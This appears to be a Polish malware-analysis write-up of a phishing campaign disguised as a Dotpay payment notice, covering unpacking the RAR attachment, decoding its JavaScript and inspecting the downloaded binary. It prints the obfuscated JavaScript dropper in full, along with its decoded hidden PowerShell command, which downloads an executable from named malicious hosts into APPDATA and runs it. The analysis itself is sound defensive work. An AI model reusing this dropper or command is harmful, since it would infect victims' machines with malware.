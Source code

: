 System: Linux / Bash / Python 3

### Email

(zrzut ekranu: Alt+PrintScreen)

![#1](images/screenshot.png?raw=true)   

### Sprawdzenie typu pliku z załącznika

```bash
$ file Platnosc_w_systemie_Dotpay_M6694-5134_PDF.z 
```
```
Platnosc_w_systemie_Dotpay_M6694-5134_PDF.z: RAR archive data, v1d, os: Win32
```

### Ręczne rozkompresowanie załącznika

```bash
$ unrar e Platnosc_w_systemie_Dotpay_M6694-5134_PDF.z
```

### Uruchomienie skryptu

```bash
$ python main.py Płatnosc_w_systemie_Dotpay_M6694-5134_PDF.js
```
```
--- wczytane z pliku (jako Unicode)---

var _0xc9a5=["shell.application","powershell.exe","powershell.ex
e -ExecutionPolicy bypass -noprofile -windowstyle hidden -Encode
dCommand UABvAHcAZQByAFMAaABlAGwAbAAgAC0ARQB4AGUAYwB1AHQAaQBvAG4
AUABvAGwAaQBjAHkAIABiAHkAcABhAHMAcwAgAC0AbgBvAHAAcgBvAGYAaQBsAGU
AIAAtAHcAaQBuAGQAbwB3AHMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuACAALQBjAG8
AbQBtAGEAbgBkACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0
ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQ
ARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8ALwB0AGUAbgBvAHIALgBjAG8AbQAuAHA
AbAAvAHAAbABpAGsAaQAvAGIAaQBuAHMAdAB4AHQALgBlAHgAZQAnACwAHSAkAGU
AbgB2ADoAQQBQAFAARABBAFQAQQBcAGIAaQBuAHMALgBlAHgAZQAdICkAOwBTAHQ
AYQByAHQALQBQAHIAbwBjAGUAcwBzACAAKAAdICQAZQBuAHYAOgBBAFAAUABEAEE
AVABBAFwAYgBpAG4AcwAuAGUAeABlAB0gKQA=","C:\Windows\system32\Wind
owsPowerShell\v1.0","open","1"];var RzSdcVPN= new ActiveXObject(
_0xc9a5[0]);RzSdcVPN.ShellExecute(_0xc9a5[1],_0xc9a5[2],_0xc9a5[
3],_0xc9a5[4],_0xc9a5[5]) 

--- wycinek po "-EncodedCommand" ---

UABvAHcAZQByAFMAaABlAGwAbAAgAC0ARQB4AGUAYwB1AHQAaQBvAG4AUABvAGwA
aQBjAHkAIABiAHkAcABhAHMAcwAgAC0AbgBvAHAAcgBvAGYAaQBsAGUAIAAtAHcA
aQBuAGQAbwB3AHMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuACAALQBjAG8AbQBtAGEA
bgBkACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUA
dAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwA
ZQAoACcAaAB0AHQAcAA6AC8ALwB0AGUAbgBvAHIALgBjAG8AbQAuAHAAbAAvAHAA
bABpAGsAaQAvAGIAaQBuAHMAdAB4AHQALgBlAHgAZQAnACwAHSAkAGUAbgB2ADoA
QQBQAFAARABBAFQAQQBcAGIAaQBuAHMALgBlAHgAZQAdICkAOwBTAHQAYQByAHQA
LQBQAHIAbwBjAGUAcwBzACAAKAAdICQAZQBuAHYAOgBBAFAAUABEAEEAVABBAFwA
YgBpAG4AcwAuAGUAeABlAB0gKQA= 

--- decode base64 i utf16 ---

PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidde
n -command (New-Object System.Net.WebClient).DownloadFile('http:
//tenor.com.pl/pliki/binstxt.exe',”$env:APPDATA\bins.exe”);Start
-Process (”$env:APPDATA\bins.exe”) 
```

### Pobranie pliku z serwera

Po dekodowaniu tekstu widać link do pliku na serwerze WWW więc można spróbować go ściągnąć

```bash
$ wget http://tenor.com.pl/pliki/binstxt.exe
```

Pliku już nie było na serwerze.

Na portalu `Zaufana Trzecia Strona` można znaleźć inny adres, który był wciąż aktywny.

```bash
$ wget http://faashionelka.pl/online/binstxt.exe
```

### Przejrzenie zawartości

Wyświetlenie napisów w pliku

```bash
$ strings binstxt.exe
```

Nic ciekawego nie pokazało (może oprócz MicrosoftEdgeBrowserExporter.exe)

### Sprawdzenie adresów WWW

```bash
$ whois faashionelka.pl
```

```
DOMAIN NAME:           faashionelka.pl
registrant type:       individual
nameservers:           guy.ns.cloudflare.com. 
                       jade.ns.cloudflare.com. 
created:               2017.11.20 21:04:20
last modified:         2017.11.21 02:26:06
renewal date:          2018.11.20 21:04:20

no option

dnssec:                Unsigned


REGISTRAR:
nazwa.pl sp. z o.o.
ul. Mieczysława Medweckiego 17
31-870 Kraków
Polska/Poland
+48.801 33 22 33
+48.12 297 88 10 
+48.12 297 88 08
kontakt@nazwa.pl
www.nazwa.pl

WHOIS database responses: http://www.dns.pl/english/opiskomunikatow_en.html

WHOIS displays data with a delay not exceeding 15 minutes in relation to the .pl Registry system
Registrant data available at http://dns.pl/cgi-bin/en_whois.pl
```
---

### Informacje dodatkowe:

Zaufana Trzecia Strona: [Uwaga na nową kampanię malware „Platnosc w systemie Dotpay”](https://zaufanatrzeciastrona.pl/post/uwaga-na-nowa-kampanie-zlosliwego-oprogramowania-platnosc-w-systemie-dotpay/)
